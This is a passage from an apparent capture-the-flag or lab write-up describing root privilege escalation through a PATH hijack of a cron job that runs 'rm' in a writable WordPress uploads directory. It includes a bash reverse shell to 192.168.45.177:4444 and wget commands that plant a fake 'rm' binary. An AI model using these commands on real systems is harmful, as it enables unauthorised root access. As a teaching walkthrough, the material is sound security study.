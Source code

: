 Grab the user flag.

## Privilege Escalation

### Path Hijack -> Root Shell

I ran a `linpeas.sh` scan and it found this:

```
[+] Cron jobs
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#scheduled-cron-jobs          
/usr/bin/crontab                                                                             
incrontab Not Found
-rw-r--r-- 1 root root 1042 Oct 11  2019 /etc/crontab                                        

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Oct 25  2021 .
drwxr-xr-x 77 root root 4096 Dec 13  2021 ..
-rw-r--r--  1 root root  102 Oct 11  2019 .placeholder
-rw-r--r--  1 root root  712 Dec 17  2018 php
-rw-r--r--  1 root root  348 Oct 25  2021 wpclean
```

There's a `wpclean` thing running periodically on the machine. Here's the contents of that script:

```bash
# /etc/cron.d/wpclean: crontab entries to cleanup wordpress uploads folder

HOME=/var/www/html/wordpress/wp-content/uploads
PATH=~/bin:/usr/bin:/bin

# in case the intern do something silly, delete all files with invalid image extension
*/5 * * * * root /usr/bin/find . -type f -not -regex '.*\.\(jpg\|jpeg\|png\|gif\)' -exec bash -c "rm -f {}" \;
```

First thing I noticed was that this was using a custom `HOME` variable, which is included in the `PATH` variable as the first directory and the fact that `www-data` can write to their `HOME` directory. The `rm` binary they execute here does not have the full path, so we can create our own `rm` file that gives a reverse shell when executed.

Here's the contents of my reverse shell:

```bash
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.45.177/4444 0>&1'
## need to specify full paths!
```

Run these commands:

```bash
cd /var/www/html/wordpress/wp-content/uploads
mkdir bin
cd bin
wget <IP>/rm
chmod +x rm
```

